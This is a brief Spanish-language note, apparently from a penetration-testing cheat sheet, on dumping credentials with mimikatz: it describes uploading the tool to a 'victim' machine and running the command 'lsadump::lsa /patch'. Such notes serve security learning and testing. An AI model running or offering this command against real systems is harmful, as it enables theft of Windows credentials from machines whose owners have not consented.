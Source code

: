 # Dumpear credenciales con mimikatz
Subimos el mimikatz al equipo victima, lo ejecutamos con `mimikatz.exe` y en la sesión interactiva hacemos lo siguiente:
```
lsadump::lsa /patch
```

